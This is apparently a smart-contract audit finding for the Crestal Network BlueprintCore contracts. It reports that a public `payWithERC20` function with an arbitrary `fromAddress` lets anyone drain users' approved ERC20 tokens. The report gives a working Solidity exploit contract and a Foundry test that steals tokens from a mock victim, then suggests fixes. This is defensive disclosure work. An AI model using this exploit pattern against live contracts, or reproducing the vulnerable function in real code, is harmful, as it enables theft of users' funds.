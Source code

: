 Eager Paisley Mole

High

# Attacker Will Drain Approved Tokens from Users via `Payment::payWithERC20` Direct Calls

### Summary

The public visibility and arbitrary `fromAddress` in the `payWithERC20` function will cause a potential loss of funds for users who have approved the `BlueprintCore` contract as an attacker will directly call `payWithERC20` to transfer approved tokens to an address they control.

### Root Cause

https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25-L32

In `Payment.sol:22-30`, the `payWithERC20` function is marked as `public` and allows an arbitrary `fromAddress` without restricting it to `msg.sender`. This design choice enables anyone to call the function and transfer tokens from any address that has approved the `BlueprintCore` contract, bypassing the intended internal usage within `BlueprintCore`.

### Internal Pre-conditions

1. A user needs to approve the `BlueprintCore` contract to spend an amount of ERC20 tokens (e.g., via `approve(BlueprintCoreAddress, amount)`) on their behalf.
2. The `erc20TokenAddress` must be a valid ERC20 token contract supported by `BlueprintCore` (e.g., listed in `paymentAddressEnableMp` for other operations, though not checked in `payWithERC20` itself).

### External Pre-conditions

None

### Attack Path

1. A user approves the `BlueprintCore` contract to spend 1000 tokens of an ERC20 token (e.g., `token.approve(BlueprintCoreAddress, 1000e18)`).
2. An attacker calls `payWithERC20(erc20TokenAddress, 500e18, userAddress, attackerAddress)` directly on the `BlueprintCore` contract.
3. The `safeTransferFrom` function transfers 500 tokens from `userAddress` to `attackerAddress`, assuming the approval is still valid.
4. The attacker repeats this process until the approved amount is exhausted or the approval is revoked.

### Impact

The affected users suffer an approximate loss of the total value of ERC20 tokens they’ve approved for the `BlueprintCore` contract to spend. The attacker gains these tokens directly, proportional to the approved amounts they can exploit.

### PoC

Add this contract within `BlueprintV5.t.sol` for the exploit logic

<details>
<summary>Exploit Contract</summary>

```solidity
contract Exploit {
    BlueprintV5 public blueprint;
    MockERC20 public token;

    constructor(address _blueprint, address _token) {
        blueprint = BlueprintV5(_blueprint);
        token = MockERC20(_token);
    }

    function attack(address victim, uint256 amount) external {
        blueprint.payWithERC20(address(token), amount, victim, address(this));
        // Attacker now has the tokens transferred from the victim
    }

    function checkStolenFunds() external view returns (uint256) {
        return token.balanceOf(address(this));
    }
}
```

</details>

Add test function to contract BlueprintTest contract

<details>
<summary>Attack Test Function</summary>

```solidity
function test_exploitPayWithERC20() public {
    // Setup: Add payment address and mint tokens
    uint256 victimAmount = 500 ether;
    blueprint.addPaymentAddress(address(mockToken));
    mockToken.mint(address(this), victimAmount);

    // Victim approves BlueprintV5 to spend their tokens
    mockToken.approve(address(blueprint), victimAmount);
    uint256 allowance = mockToken.allowance(address(this), address(blueprint));
    assertEq(allowance, victimAmount, "Blueprint should have correct allowance");

    // Deploy the exploit contract
    Exploit attacker = new Exploit(address(blueprint), address(mockToken));

    // Initial balances
    uint256 victimInitialBalance = mockToken.balanceOf(address(this));
    assertEq(victimInitialBalance, victimAmount, "Victim should have initial balance");

    // Attacker exploits by calling payWithERC20 directly
    uint256 stealAmount = 200 ether;
    attacker.attack(address(this), stealAmount);

    // Verify the exploit
    uint256 victimFinalBalance = mockToken.balanceOf(address(this));
    uint256 attackerBalance = mockToken.balanceOf(address(attacker));
    assertEq(victimFinalBalance, victimAmount - stealAmount, "Victim balance should decrease");
    assertEq(attackerBalance, stealAmount, "Attacker should have stolen tokens");

    // Log for debugging
    console.log("Victim initial balance:", victimInitialBalance);
    console.log("Victim final balance:", victimFinalBalance);
    console.log("Attacker balance:", attackerBalance);
}
```

</details>


1. Deploy MockERC20 and MockBlueprintCore.
2. The PoC contract approves MockBlueprintCore to spend 500 tokens.
3. The Exploit contract calls payWithERC20 to transfer 200 tokens from the PoC contract to itself.
4. Assertions verify the attacker received the tokens, exploiting the public function.

### Mitigation

**1. Restrict Visibility:**
- Change `payWithERC20` to `internal` or `private` so it can only be called within `BlueprintCore` or `Payment`. This ensures it’s only used as intended by internal logic.

```diff

--    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
++    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }

```

Alternatively
**2. Restrict fromAddress to msg.sender:**
- Add a check to ensure `fromAddress == msg.sender`, preventing arbitrary `fromAddress` usage. This aligns with typical ERC20 transfer patterns and eliminates the exploit.

```diff
function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
++    require(fromAddress == msg.sender, "Only sender can transfer their own tokens");
    require(fromAddress != toAddress, "Cannot transfer to self address");
    require(toAddress != address(0), "Invalid to address");
    require(amount > 0, "Amount must be greater than 0");
    IERC20 token = IERC20(erc20TokenAddress);
    token.safeTransferFrom(fromAddress, toAddress, amount);
}
```